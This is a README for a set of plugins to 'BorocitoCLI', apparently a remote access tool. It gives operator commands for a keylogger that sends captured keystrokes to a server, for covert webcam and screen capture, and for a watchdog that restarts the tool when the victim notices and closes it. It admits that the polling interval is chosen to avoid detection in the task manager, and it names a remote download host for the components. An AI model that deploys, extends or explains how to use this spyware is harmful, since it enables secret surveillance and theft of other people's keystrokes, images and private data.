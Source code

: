 # borocito-components
Complementos para Borocito CLI

## Complements
These plugins were created to enrich the experience with BorocitoCLI.

They're not perfect, but they're not disappointing either. Well, it really depends on how they're made. I invite you to contribute to the development of these, if there is something, an error, bug, an idea, etc, contribute, I will greatly appreciate it, and those of us who use these complements too.

### Using it
All plugins here, except for the 'boro-get' package manager, were created by Zhenboro. Yeah, and besides the fact that I made them, they need to be installed by 'boro-get'.
boro-get is a module within BorocitoCLI. It's totally inside, well implemented. So, initially, there should be no problem.

#### boro-get
This must be installed, by default it is not implemented. It should be installed using the command `boro-get install`, to check if it is installed or not, use `boro-get status`, if it is already installed, great!
Now, if you want to be sure the latest version is installed, use `boro-get uninstall`, that will uninstall boro-get. Then you can use the `boro-get install` command to download and install the latest version available on the server indicated in the file: GlobalSettings.ini
```sh
[Components]
boro-get=http://chemic-jug.000webhostapp.com/Borocito/Boro-Get/boro-get.zip
```
Now that boro-get is installed. We can start installing and using the packages.

We can install a package with the command `boro-get <package> <start?> <parameters>`
An example with broKiloger:
`boro-get broKiloger True /startrecording`
If the package does not require an argument:
`boro-get broKiloger`
(<start?> will be marked as True, the package will start)

If you don't want to start it (just download and install it)
`boro-get broKiloger False null`

>NOTE: 'null' is a reserved word, it will be very useful!

Now we are going to define a concept.
**Single Instance Package**: A package with this warning means that only one instance of it will be started. Just one.
These are designed to do unique unrepeatable things. Like a keylogger. This is something global, why another instance?
Also, they can receive parameters when they are already started, so you can control them.

### boro-hear
boro-hear is a module that allows plugins to communicate (one-way C->S) with the Control Panel.

If you make a plugin, you can make it send messages to the control panel. In your code you should put something like [this code](https://github.com/Zhenboro/borocito-components/blob/e7eda70b99cfcfa2ea3a66223cc3564703051f29/broKiloger/Utility.vb#L8-L51).
That will start an instance of boro-hear which will send your message to the server. boro-hear is single-instance, but messages can be sent by passing parameters to it. These are picked up by boro-hear via the StartUpNextInstance event.


### broEstoraje
This plugin is not coded yet.
It is used to explore files. Basically [RMTFS](https://github.com/Zhenboro/RMTFS) adapted to work with FTP (or IDFTP).

### broKiloger
broKiloger is a plugin dedicated to logging keys.

> NOTE: Single Instance Package

Your options are:
```sh
/startrecording: It will start key recording.
boro-get broKiloger True /startrecording
```
```sh
/stoprecording: It will stop the key recording and broKiloger will close.
boro-get broKiloger True /stoprecording
```
> NOTE: It will not save or send the record.

```sh
/sendrecord: It will send the keylogger and then start recording again.
boro-get broKiloger True /sendrecord
```

```sh
/resetrecord: It will clean the keylogger.
boro-get broKiloger True /resetrecord
```
> NOTE: It will not save or send the record.

```sh
/sendandexit: It will send the keylogging and then broKiloger will close.
boro-get broKiloger True /sendandexit
```

### broRescue
This plugin was created because it turns out that sometimes an instance of BorocitoCLI can be closed by some external or internal factor. Perhaps the user noticed the presence and closed it, or, a command left a mess that BorocitoCLI couldn't handle.
For this reason, broRescue is a good recommendation that it be installed.
**And what does it do?**
Well it's simple. If you notice that BorocitoCLI has closed. You can make broRescue restart the BorocitoCLI instance by using the command:
`broRescue Borocito`
and not only that, you can also start the extractor, or the updater.
To do this, the commands will be:
`broRescue Extractor`
`broRescue Updater`
Or even restart the computer with the command:
`broRescue Restart`
This packet reads directly from the server. Every 20 minutes. So yes, you will notice the effect in 20 minutes. And that is done so as not to load the server, and also so that it is not noticed from the task manager.

### broScrincam
This plugin is for:
- Take photos from a Webcam
- Record video from a Webcam
- Record screen

> NOTE: Single Instance Package

```sh
/startscreenrecording: (will try) record the screen.
boro-get broScrincam True /startscreenrecording
```

```sh
/stopscreenrecording: It is supposed to stop screen recording. That part is not scheduled yet.
boro-get broScrincam True /stopscreenrecording
```
> NOTE: It will not save or send the record. Not coded yet.

```sh
/startcamrecording: It will start to record video from the webcam
boro-get broScrincam True /startcamrecording
```

```sh
/takecampicture: It will take a screenshot of the webcam
boro-get broScrincam True /takecampicture
```
> NOTE: It will be sent automatically.

```sh
/stopcamrecording: It will stop the Webcam recording.
boro-get broScrincam True /stopcamrecording
```
> NOTE: It will not save or send the record.

```sh
/sendscreenrecord: It is supposed to stop, save and send the screen recording. This part is not coded yet.
boro-get broScrincam True /sendscreenrecord
```
> NOTE: Not coded yet.

```sh
/sendcamrecord: It will stop the Webcam recording and send it automatically.
boro-get broScrincam True /sendcamrecord
```
> NOTE: It will be sent automatically.

```sh
/stop: It will send the keylogger and then start recording again.
boro-get broScrincam True /stop
```

## Uninstalling a package
To uninstall, remove a package, the following points must be taken into account.
- The plugin MUST BE CLOSED. There should not be an instance of this. Read the documentation to know how to close it.
- All data from this plugin, recordings, files, etc. will be deleted.
- They can be reinstalled, don't worry about it.

To uninstall, use the `boro-get <package> True uninstall` command.
An example with broKiloger would be:
`boro-get broKiloger True uninstall`
'uninstall' in lowercase.

The plugins created are not perfect. I recommend you take a look at the code to know what it does and how it does it, so you avoid unpredictable behavior or bad practices.
